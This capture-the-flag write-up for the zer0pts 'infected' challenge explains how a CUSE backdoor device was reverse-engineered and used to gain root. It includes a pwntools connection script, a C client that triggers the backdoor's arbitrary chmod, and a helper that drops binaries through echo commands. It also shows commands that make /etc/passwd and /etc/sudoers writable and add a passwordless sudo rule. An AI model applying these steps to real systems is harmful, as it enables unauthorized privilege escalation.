





infected [96 pts]
=================

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

The backdoor is installed on this machine:

`nc others.ctf.zer0pts.com 11011`

or

`nc any.ctf.zer0pts.com 11011`

How can I use it to get the flag in /root directory?

Files: [backdoor](./backdoor), [pow.py](pow.py)

Solution
--------

Upon connecting to one of the challenge instances, we are presented with the following data:

```bash
$ nc others.ctf.zer0pts.com 11011
sha256("????7ODw2khtlGAYuufQiKuq") = f1554b44e0e5ba392ccadf62663423980921dfd39f0ed04cb9eb7b3325384dac
```

Taking a look at [pow.py](pow.py), we are given code to crack the first 4 characters of this data so they equal the resulting hash:

```python
"""
i.e.
sha256("????v0iRhxH4SlrgoUd5Blu0") = b788094e2d021fa16f30c83346f3c80de5afab0840750a49a9254c2a73ed274c

Suffix: v0iRhxH4SlrgoUd5Blu0
Hash: b788094e2d021fa16f30c83346f3c80de5afab0840750a49a9254c2a73ed274c
"""
import itertools
import hashlib
import string

table = string.ascii_letters + string.digits + "._"

suffix = input("Suffix: ")
hashval = input("Hash: ")

for v in itertools.product(table, repeat=4):
    if hashlib.sha256((''.join(v) + suffix).encode()).hexdigest() == hashval:
        print("[+] Prefix = " + ''.join(v))
        break
else:
    print("[-] Solution not found :thinking_face:")
```

To make connection to this challenge simpler, we can create a python script as follows:

```python
from pwn import *
import itertools
import hashlib
import string

table = string.ascii_letters + string.digits + "._"

try:
    # try first server
    p = remote('any.ctf.zer0pts.com',11011)
    data = p.recvline().decode().split('=')
except(EOFError):
    # if that fails, go to the other one
    p = remote('others.ctf.zer0pts.com',11011)
    data = p.recvline().decode().split('=')

hashval = data[1].strip()
suffix = data[0].split('????')[1].split('"')[0]
print("solving...")
for v in itertools.product(table, repeat=4):
    if hashlib.sha256((''.join(v) + suffix).encode()).hexdigest() == hashval:
        print("[+] Prefix = " + ''.join(v))
        prefix = ''.join(v)
        break
else:
    print("[-] Solution not found :thinking_face:")
p.sendline(prefix)
p.interactive()
```

After solving the hash, we are dropped into a shell which appears to be a small container that is re-generated everytime we connect.

At this point, we can pop the provided [backdoor](backdoor) executable into a disassembler such as Binary Ninja. The program's `main(int argc, char* argv[])` function contains just one function call to `register_backdoor(int argc,char* argv[])`:



As it turns out, `cuse_lowlevel_main()` can be used to [create a fake device in /dev](https://stackoverflow.com/questions/23135589/create-dev-fakedevice-supporting-read-write-and-ioctl). The `devops` variable referenced in the disassembly is used to specify which actions are supported on the device (open, read, write, etc). 

The `devops` structure contains open and write handler functions:



`backdoor_open()` works about how you would think, it just allows services to `open()` the device. 

`backdoor_write()` is a bit more complicated:



The function starts of taking the input that was just written to the device and parses it by breaking it up into tokens, separated by a ':' character. 

The first string before the first ':' must be 'b4ckd00r' to trigger the functional part of this code.

It then becomes clear that the next item in the ':' delimited string must be a file name, due to the `stat64()` call. Looking further down, the function then `chmod()`'s the file provided with the permissions provided as the third item in the delimited input. 

*Note: the `atoi(third_part)` function does not work with octal, which is what the command line `chmod` tool takes as input. Instead, when forming our request to the backdoor, we must send the decimal form of the octal permissions. For instance, if we wanted a file with 777 permissions, we would use 511 in this case.*

Once a shell was obtained, we originally tried writing to the device at `/dev/backdoor`:



The write error kind of threw us off.

Fast forward to after we got the flag, we realized the write error was from the error that was thrown by the backdoor on bad input. So if we had tested with something like `echo "b4ckd00r:/etc/hosts:511" > /dev/backdoor`, it would have worked just fine.

**But, since we didn't realize this, here is how we made the process vastly more complicated than it should have been:**

First, we made a [small C program](./connect.c) that would take a file path and decimal permission value to activate the backdoor and `chmod` a file:

```c
/*
 * connect.c - use zer0pts backdoor
*/
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/ioctl.h>

int main(int argc, char* argv[]) {
    if (argc < 3) {
        printf("Incorrect usage\nusage: %s [file] [permissions]\n",argv[0]);
        return -1;
    }
    char readbuf[256];
    char* cmd = NULL;
    asprintf(&cmd,"b4ckd00r:%s:%s",argv[1],argv[2]);
    printf("sending %s\n",cmd);
    int fd = open("/dev/backdoor", O_RDWR);
    if (fd < 0) {
        printf("ERROR opening device\n");
        return -1;
    }
    write(fd,cmd,strlen(cmd));
    read(fd,readbuf,256);
    printf("got: %s\n",readbuf);
    close(fd);
    return 0;
}
```

The challenge instance did not have a network connection to the outside world or `gcc` or any other compiler installed, so we couldn't simply `wget` the source or compiled version of the program. 

Instead, we opted for the approach of slowly building up a binary file on the challenge instance through the use of lots of `echo` commands. We tried to use one large `echo -n -e '\x7f\x45...' > /tmp/outfile` with the entire file in the `...`, but either pwntools or the challenge's buffer wasn't going to allow that. 

Our solution ended up being a function called `drop_file(remote_pwn,local_file, dest)`, which allows us to drop files, with either ASCII or binary data, onto remote challenge instances without an internet connection:

```python
def drop_file(remote_pwn,filename,dest):
    with open(filename,'rb') as fp:
        data = fp.read()
    data = binascii.b2a_hex(data)
    pieces = [data[i:i+450] for i in range(0, len(data), 450)]
    for i,piece in enumerate(pieces):
        piece = str(piece)[2:-1]
        piece = '\\x' + '\\x'.join(a+b for a,b in zip(piece[::2],piece[1::2]))
        ret = f"echo -n -e '{piece}' >> {dest}"
        remote_pwn.sendline(ret)
        print(f"sending {filename} [{i+1}/{len(pieces)}]")
        remote_pwn.recvuntil('/ $ ')
```

Now, all we had to do was run 

```bash
gcc connect.c -o connect
```

and add the following to our [python script](solve.py) right before `p.interactive()`:

```python
...
drop_file(p,'connect','/tmp/connect')
p.interactive()
```

Once we were dropped into the challenge instance, all we had to do was run `chmod +x /tmp/connect` and we could change file permissions like so:

```bash
/tmp/connect /etc/hosts 511
```

**While the `drop_file()` function ended up not being necessary for this specific challenge, we still use it throughout the rest of this writeup. However, this function may be useful in other CTF challenges in the future where tranferring a binary data/executable file is required.**

Because the directory we needed to view was `/root`, we tried changing the permissions on it to be readable for everyone, but that did not work. 

After trying a few things here and there, we ended up running the `id` command:

```bash
$ id
uid=1000 gid=1000(sudo) groups=1000(sudo)
```

This output gave us the idea to try and `sudo` to elevate our privileges, but we were met with the following output:

```
$ sudo
sudo: you do not exist in the passwd database
```

With our `chmod` backdoor in place, we finally had a plan.

First, we needed to add our user to the `/etc/passwd` file. To do this, we decided we would name our new user to 'sudo', made `/etc/passwd` writeable to everyone, added our user, and fixed the permissions on `/etc/passwd`:

```bash
$ /tmp/connect /etc/passwd 511 # 777 octal
$ echo "sudo:x:1000:1000:sudo:/home:/bin/sh" >> /etc/passwd
$ /tmp/connect /etc/passwd 420 # 644 octal
```

Now, when we run the `sudo` command by itself, no error is given and we get the usage output. 

After executing `sudo /bin/sh`, we were given a password prompt. 

No worries though, since we can change permissions of any file on the filesystem, we just need to add a line in the `/etc/sudoers` file to allow anyone to execute `sudo` commands without a password:

```bash
$ /tmp/connect /etc/sudoers 511 # 777 octal
$ echo "%sudo ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
$ /tmp/connect /etc/sudoers 288 # 440 octal
```

After running `sudo /bin/sh` now, we bypass the password prompt to get a root shell, and as a result, the flag:



Flag: `zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}`